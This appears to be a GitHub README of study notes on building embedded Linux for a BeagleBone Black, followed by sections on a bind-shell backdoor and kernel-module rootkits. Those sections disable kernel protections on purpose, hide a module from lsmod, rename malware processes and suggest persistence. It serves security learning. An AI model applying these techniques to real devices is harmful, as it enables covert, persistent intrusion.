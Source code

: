 ![Plan of action Slide](https://github.com/kymb0/IoT/raw/main/note_dir/images/steps.png)  

Before running through steps: run [packages.sh](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/packages.sh) > set paths and alias for build (example in [environ.sh](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/environ.sh))  

<h2>Step 1 - Build our toolchain (what is a [toolchain?](https://github.com/kymb0/IoT/blob/main/note_dir/Toolchain.md))</h2>
<details>
  <summary></summary>  

Commands for this step:
```
tar xf crosstool-ng-1.23.0.tar.xz
cd crosstool-ng-1.23.0
./configure --prefix=$BASE_INSTALL_DIR/Step-1/customtoolchain
make
make install
cd ..
cp config_file .config
ct-ng build
```  

To do this we must configure crosstool-ng, and then compile it.  
We configure with `ct-ng menuconfig` (An example config is [here](https://github.com/kymb0/IoT/blob/main/note_dir/ct-ng-config))  
most options in config are self explainatory, the only one that was not (for me) was C library. By defukat this was set to gLibc, we want uClibc - this is because uClibc is more of a "smaller and barebones library"

The actual commands to do the above are as follows, as we can see all we are doing is unpacking the offline install directory as well as changing the base install directory from `/` to `/Step-1/customtoolchain`, build crosstool-ng with `make`, install with `make install`, and then build our custome toolchain using the installed and configured crosstool-ng.  
Once built, we can see our binaries in the specified /bin/ directory - this important for later on.

</details>  

<h2>Step 2 - Configure and compile u-boot</h2>
<details>
  <summary></summary>  

Commands for this step:  
```
tar xf u-boot-2018.01.tar.bz2`  
cd u-boot-2018.01
cp ../u-boot-2018.01 .config
arm-make
```
Explaination of above:  
  
So first, we decompress u-boot.tar, and move into it, as this contains the files we need to configure and compile.  
Then we copy the config file across - Why do we need a config file?  
As we are compiling u-boot for a specific device (beagleboneblack), we will need to feed u-boot many device specific details, as u-boot will be responsible for initializing many devices.  
To locate which config to use we look inside `configs/` - which contains configs files for different processors, boards, etc. These configs tell u-boot which support needs to be compiled in aswell as env settings.  
How do we create the config file?  
For the BBB, we can find our particular configs with `ls config/am335x_*`  
this will list all relevant files - luckily for us the SoC/board manufacturer will stipulate which configs are to be used, we can gleam this from their website. In this case Texas Instruments site tells us to use `am335x_evm_defconfig` in order to boot beagleboneblack.  

It is important to note that u-boot will also look will look at the corresponding .dts file with the same naming convention as the config file specified by manufacturer, so, `am335x_evm.dts`  
This file works off a template for the entire am335 family, and inturn THAT template works off a skeleton template.  
(the dts contains large amounts of info regarding different devices, power profiles, memory locations, etc)

Now, compilation process - note `arm make` is an alias for `'ARCH=arm CROSS_COMPILE=arm-unknown-linux-uclibcgnueabihf- make'` as set by the [environ.sh](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/environ.sh) file. Essentially it sets the architecture to arm and sets the crosscompilation toolchain to the binary installed by our custom toolchain in step 1.  
`arm-make distclean` - clean out settings  
`arm-make am335x_evm_defconfig` - using the alias, this will create a config file for us to use (we can inspect and modify via `arm-make menuconfig`)   What would we want to modify? possibly the CLI, shellprompt, boot-delay, etc. We can also include support for additional commands, filesystem support, etc.

finally after creating our config file, we run `arm-make`, after 5 or so minutes we will see our `MLO` file, aswell as u-boot.img, etc.  
</details>  

<h2>Step 3 - Compiling Kernel and Device Tree Binary</h2>
<details>
  <summary></summary>  

Commands for this step:
```
tar xf linux-4.15.7.tar.xz
cd linux-4.15.7
cp ../linux-4.15.7-config .config
ARCH=arm CROSS_COMPILE=arm-unknown-linux-uclibcgnueabihf- make -j $(nproc) zImage dtbs modules OR arm-make -j $(nproc) zImage dtbs modules
```
Explaination of above:  
extract the linux kernel (may take some time: one of, if not THE largest repo in the world)  
move into the directory (root of kernel sources)  
we need a config to make sure we compile a kernel capable of running on the beagleboneblack  

Our base defconfig file will be `arch/arm/configs/multi_v7_defconfig` as this contains support for many, many SoC's (obviously including )  
arm-make multi_v7_defconfig to make our base config  
now we customise with `arm-make menuconfig`  
something we may like to change is the kernel .config support option (a M indicates the complete `.config` file will be compiled as an external MODULE, whereas a `*` means the `.config` means it will be built in to the kernel, we want the support built in, so we select `*`)

We would also like KPROBES enabled, as this will allow us to figure many things out in the kernel at runtime - necessary for rootkits and such

[*Note*] As this kernel will be for IoT/embedded devices, as such we will be INTENTIONALLY select options to make the kernel weaker for the purpose of demonstrating rootkits. (in saying this, many IoT devices, even modern ones actualy SHIP with these settings off)  

First we UNSELECT `make kernel text and rodata read-only`, this allows us to play with the syscall table.  
We also UNSELECT `Set loadable kernel module data as NX and text as RO` 

Last we turn `SECCOMP` off in order to enable the full use of certain syscalls, in addition to turning ON `NETFILTER` which is the framework which is used to run iptables, create custom firewalls, packet routing etc. (generally on by default in anycase)  

(We can reduce size of zImage file after compilation by compiling this kernel for ONLY the am335x SoC. wWe do this at menuconfig stage by selecting in systemtypes: TI OMAP/AM family and only select am335x)

Now with these settings done, we compile the kernel (again with our alias):  
`arm-make -j $(nproc) zImage modules dtbs` nproc is number of cpus, we want to also compile in the zImage, modules we selected, aswell as device tree binary.

After this is completed, we can view the zImage files with `ls arch/arm/boot -lh`, `ls arch/arm/boot/dts/am335x-bone*` and so forth.  
</details> 

<h2>Step 4 - Create Root Filesystem</h2>
<details>
  <summary></summary>  

Commands for this step:
```
tar xf buildroot-2017.11.2.tar.gz
cd buildroot-2017.11.2
cp ../buildroot-2017.11.2-config .config
mkdir dl 
cp ../dl/* dl/
make clean
make
```
We will start by unzipping buildroot and moving into it.
Just as there were beaglebone specific config files in the kernel, we have the same situation with buildroot. We generate our config with
`arm-make configs/beaglebone_defconfig`.
Again, `arm-make menuconfig` to modify some settings: Very importantly we do not want buildroot to download and use it's own toolchain - we must change Toolchain type from the default to `external toolchain` and Toolchain from `Linaro` to `Custom toolchain`.
Toolchain prefix must be `arm-unknown-linux-uclibcgnueabihf` - this will tell buildroot how to search for our toolchain binaries. Make sure our gcc version lines up with what he have, in addition to linux kernel version we compiled.   Then we turn on wchar, local, rpc support.  
Lastly we go up one level in settings, and make sure we uncheck Kernel and bootloader as we have built our own. Now in filesystem we select tar filesystem and compression method `xz`.  
Buildroot is now configured to build out the filesystem for the beaglobone black.  
As the packages required are already downloaded, we copy them into the buildroot dl folder.  
Finally we `make` and wait a while, there may be some errors at the end however these can be ignored  
We can see our rootfs tar file in the `output/images/` dir of buildroot as well as a `uEnv.txt` file we could use if we wanted.  
</details>  

<h2>Step 5 - Preparing SD card and booting!</h2>
<details>
  <summary></summary>  

Step 5 - Bringing it all together

Now we have our: 
BOOT partition: `MLO`, `u-boot.img`, and `uEnv.txt` (created Step 2)  
KERNEL partition: `zImage` (linux kernel) and `XX.dtb` (Device Tree) (Created Step 3)  
ROOTFS Partition: `busybox`, `Sytem Utilities`, `Kernel Modules`, and `Custom Programs` (created Step 4)  

  <details>
  <summary>SD Partitioning</summary>  
    
  ![sdPartitioning](https://github.com/kymb0/IoT/raw/main/note_dir/images/sd_part.png)  
    
  </details>
  
We can achieve our partitioning with a number of tools, an wasy way is via `gparted`, typically we want `fat32 100mb` for BOOT, `ext4 1000mb`, kernel , and the rest for rootfs.

Now if we open the pre-configured eEnvtxt file, and in bootargs we CHANGE the rootfs from partition2 to partition3.

Next copy the files we need from each step with the below script/commands:
```
2/u-boot-2018.01/MLO MLO/
cp ../Step-2/u-boot-2018.01/u-boot.img u-boot/
cp ../Step-3/linux-4.15.7/arch/arm/boot/zImage kernel/
cp ../Step-3/linux-4.15.7/arch/arm/boot/dts/am335x-boneblack.dtb dtb/
cp ../Step-4/buildroot-2017.11.2/output/images/rootfs.tar.xz filesystem/ 
cp MLO/MLO /media/iot/BOOT
cp u-boot/u-boot.img /media/iot/BOOT
cp uEnv.txt /media/iot/BOOT
sudo cp kernel/zImage /media/iot/kernel
sudo cp dtb/am335x-boneblack.dtb /media/iot/BOOT
sudo tar -C /media/dev/Linux -xvJf /home/dev/testing_dir/embedded-linux/Step-5/filesystem/rootfs.tar.xz
```
Now... plug that bad boy in and power it up! *If you are connected via UART cable you will be able to monitor the boot process.
</details>

<h2>Step 6 (part 1) - Basic backdoor example</h2>
<details>
  <summary></summary>  

In this exercise we assume 2 things:  
First, our beaglebone is connected via ethernet to a bridged port to our laptop, and we are monitoring our beaglebone via UART cable.  

For this exersize we can use any of [bindshell](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/bindshell.c), [hello](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/hello_world.c), or [hello in ARM assembly](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/hello.s) to demonstrate code execution. The below section will assume bindshell.c because shells r fun. (this particular program is your standard c program however you could also utilise a c-wrapper for assembly, aka spin up msfvenom and drop it in)

We can use our cross compilation tools directly `arm-unknown-linux-uclibcgnueabihf-gcc bindshell.c -o bindshell`  
running `file` against our output binary will confirm the cross-compilation.  
The next step is to `sudo cp /var/lib/tftpboot/` and then collect from our VM `tftp -g -r bindshell 192.x.x.x`, make executable `chmod +X bindshell`  
Now we run and viola, we can `nc` into a session. This is obviously a very basic example, however these notes set the foundation for some of the cooler stuff down the road. **Note we could easily set this binary to run under certain condition (boot, etc) and also modify the code to service multiple clients and also be persistent with it's listener**  
</details>

<h2>Step 6 (part 1) - IoT rootkit primer</h2>
<details>
  <summary></summary>  


#### Following on from Part 1, these notes are very basic and later on I will do the dedicated rootkit course and create a separate note repo or more advanced rootkit notes but for now, here are the meat and potatoes.

### Kernel module rootkit example:

Example: [helloworld.c](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/rootkits/helloworld.c)  
Can be ported to other platforms quite easily (the make file tells you what is required).  
Run as part of the kernel - has access to everything inside the kernel, can look at and modify memory etc.  

When we insert a module, the module's init routine runs.  
We may need to look at supressing log messages being print to the console when developing rootkits.  

When we compile kernel modules, we must specify an entire compiled linux source.  

Once we compile the kernel file (making use of our arm-make alias) and bring it into our device, we double check loaded modules with `lsmod` (on our barebones fresh kernel nothing should be listed).   
Now to insert the example helloworld rootkit: `insmod helloworld.ko`, we can also remove with `rmmod helloworld.ko` in this example rootkit we will see that the `init` and `exit` log messages appear in console. we can supress with `dmesg -n 1`.   

### Hiding Rootkits:
(Note that depending on your kernel, some `c` functions will change - you can use a site called bootlin to locate your kernel version, if you search your function you can locate where it is defined)  

### An example of a hidden rootkit  
Example: [iamhiding.c](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/rootkits/iamhiding.c)  
As we covered, we can view running/loaded modules with `lsmod`, however, we would much prefer our rootkit NOT to get listed and impossible to remove with `rmmod`.  

### How do we do this?   
In the rootkit code, we make a reference to ourselves `placeholder`, and then remove ourselves from the kernel's global module list `placeholder`.
You will notice that we lock the module_mutex so that any other kernel thread trying to access or modify the module list is unable to do so while we perform our operation. We unlock at the end.

### PID obfuscation  
Example: [changename.c](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/rootkits/changename.c)
In addition to hiding ourselves, we may also want to modify malware proc name eg `bindshell` appearing in `ps`
To do this we will need to take the `pid` of the proc we want to change, aswell as what we want to change it to.
So after we compile and copy over changename.ko, we can change a procs name: `insmod changename.ko process_pid=100 new_name='Linux-Kernel'`

  
</details>

